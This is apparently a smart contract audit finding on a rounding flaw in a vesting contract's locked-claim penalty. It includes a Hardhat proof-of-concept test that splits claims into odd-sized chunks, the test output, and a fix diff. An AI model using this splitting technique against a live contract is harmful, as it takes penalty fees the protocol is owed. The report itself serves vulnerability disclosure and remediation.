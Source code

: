 Tame Cherry Walrus

High

# User can claim locked tokens and pay less than the `lockedClaimPenalty`, griefing the protocol

## Impact
### Summary 
The protocol allows users to claim locked tokens but pay `lockedClaimPenalty` being 50% of the amount as penalty for claiming the tokens earlier than expected. However, a user can claim locked tokens and pay less than 50% as penalty griefing the protocol.

### Vulnerability Details

The vulnerability lies in the `Vesting::_claimLockedToken` function i.e. on line `290`, where the protocol calculates the penalty amount without considering the case where the amount is an odd number (see [here](https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/vesting/Vesting.sol#L281-L299)). 

Notice that the protocol intends for users to pay half the amount as penalty for claiming locked tokens. Due to truncation associated with integer division in solidity, calculating half of an odd number results in a number slightly less e.g 9/2 = 4 instead of 4.5. As a result, the protocol will not get up to half the amount as penalty fee if the amount to unlock is an odd number. 

This vulnerability can also be seen by taking a look at the code snippet below. 

```javascript
	function _claimLockedToken(address token, address user, uint256 amount) internal {
		// First, claim any unlocked tokens.
		_claimUnlockedToken(token, user);
		VestingPlan storage vestingPlan = vestingPlans[token][user];
		if (vestingPlan.lockedAmount() < amount) revert InvalidAmount();


		// Adjust the vesting plan
		vestingPlan.resetAmount(vestingPlan.lockedAmount() - amount);
		totalVested[token] -= amount;
292:	uint256 penalty = (amount * lockedClaimPenalty) / 1e18;


		// Ensure sufficient balance (minting if necessary)
		_ensureSufficientBalance(token, amount);


		IERC20(token).transfer(user, amount - penalty);
		IERC20(token).transfer(lockedClaimPenaltyReceiver, penalty);


		emit LockedTokenClaimed(token, user, amount, penalty);
	}
```


### Impact
Because of the truncation in integer division, a user can split the amount to withdraw into smaller chunks of odd numbers. This way, the protocol gets 1 less than the expected amount as penalty fees while the user gets 1 more than half the expected amount as claimed token. This griefs the protocol since the protocol ends up with less `SYMM` tokens as penalty fees than it would if the amount was not an odd number.

If fact, a user can unlock all their locked tokens without paying any fees if they make multiple transactions unlocking one (1) token at a time.


## Proof of Concept
1. `userA` is assigned `1_000` locked tokens. 
2. In order to cheat the protocol, `userA` claims 999 tokens such that less than half the amount is paid as penalty fee. 
3. `userA` accomplishes this by claiming 99 tokens each in 10 transactions (each time, `userA` gets `50` tokens while the protocol receives `49` tokens as penalty) and 9 tokens in one transaction (`userA` gets `5` tokens while the protocol receives `4` tokens as penalty)
4. In the end, `userA` receives `505` tokens while the protocol receives `494` tokens as penalty fee, griefing the protocol.

<details>
<summary>PoC</summary>
Place the following code into `vesting.behavior.ts`.

```javascript
describe("SpomariaPoC_claimLockedToken", () => {
		beforeEach(async () => {
			await context.symmioToken.connect(context.signers.admin).mint(await symmVesting.getAddress(), 5000)
			const users = [await context.signers.user1.getAddress()]
			const amounts = ["1000"]
			const now = new Date()
			const startTime = Math.floor(now.getTime() / 1000)

			now.setMonth(now.getMonth() + 9)
			const endTime = Math.floor(now.getTime() / 1000)

			await symmVesting.setupVestingPlans(await context.symmioToken.getAddress(), startTime, endTime, users, amounts)
		})

		it.only("User should pay less than 50% of locked tokens as penalty fee", async () => {
			const oldPenaltyContractBalance = await context.symmioToken.balanceOf(await symmVesting.lockedClaimPenaltyReceiver())
			const oldUserBalance = await context.symmioToken.balanceOf(context.signers.user1)

			// user claims 999 tokens but pays less than half the amount as penalty fee. This is accomplished by claiming 99 tokens each in 10 transactions and 9 tokens in one transaction

			for(let i = 1; i <= 10; i++){
				await symmVesting.connect(context.signers.user1).claimLockedToken(context.symmioToken, 99)
			}
			await symmVesting.connect(context.signers.user1).claimLockedToken(context.symmioToken, 9)
			
			const newPenaltyContractBalance = await context.symmioToken.balanceOf(await symmVesting.lockedClaimPenaltyReceiver())
			const newUserBalance = await context.symmioToken.balanceOf(context.signers.user1)

			await expect (newPenaltyContractBalance).to.be.equal(oldPenaltyContractBalance + BigInt(494))
			await expect (newUserBalance).to.be.equal(oldUserBalance + BigInt(505))
		})
	})
```

Now run `npx hardhat test`

Output:
```javascript

  Symmio Token
    Static Tests
      Vesting
        SpomariaPoC_claimLockedToken
deploy:SymmioToken
Symmio Token deployed: 0x8b9d5A75328b5F3167b04B42AD00092E7d6c485c
deploy:SymmAllocationClaimer
SymmAllocationClaimer deployed: 0x9BcA065E19b6d630032b53A8757fB093CbEAfC1d
deploy:Vesting
Warning: Potentially unsafe deployment of contracts/vesting/SymmVesting.sol:SymmVesting

    You are using the `unsafeAllow.external-library-linking` flag to include external libraries.
    Make sure you have manually checked that the linked libraries are upgrade safe.

SymmVesting Contract deployed at: 0x15BB2cc3Ea43ab2658F7AaecEb78A9d3769BE3cb
deploy:SymmStaking
SymmStaking Contract deployed at: 0xAE246E208ea35B3F23dE72b697D47044FC594D5F
          ✔ User should pay less than 50% of locked tokens as penalty fee

```

## Tools Used

Manual Review


## Recommended Mitigation Steps

Consider modifying the `Vesting::_claimLockedToken` function so that if the amount of locked tokens to be claimed is odd, the penalty fee should be more by 1 to correct the truncation from integer division. This will discourage users from attempting to cheat the protocol by splitting the amount into smaller chunks of odd numbered amounts:

```diff
	function _claimLockedToken(address token, address user, uint256 amount) internal {
		// First, claim any unlocked tokens.
		_claimUnlockedToken(token, user);
		VestingPlan storage vestingPlan = vestingPlans[token][user];
		if (vestingPlan.lockedAmount() < amount) revert InvalidAmount();


		// Adjust the vesting plan
		vestingPlan.resetAmount(vestingPlan.lockedAmount() - amount);
		totalVested[token] -= amount;
-		uint256 penalty = (amount * lockedClaimPenalty) / 1e18;
+		uint256 penalty = amount % 2 == 0 ? (amount * lockedClaimPenalty) / 1e18 : (amount * lockedClaimPenalty) / 1e18 + 1;


		// Ensure sufficient balance (minting if necessary)
		_ensureSufficientBalance(token, amount);


		IERC20(token).transfer(user, amount - penalty);
		IERC20(token).transfer(lockedClaimPenaltyReceiver, penalty);


		emit LockedTokenClaimed(token, user, amount, penalty);
	}    

```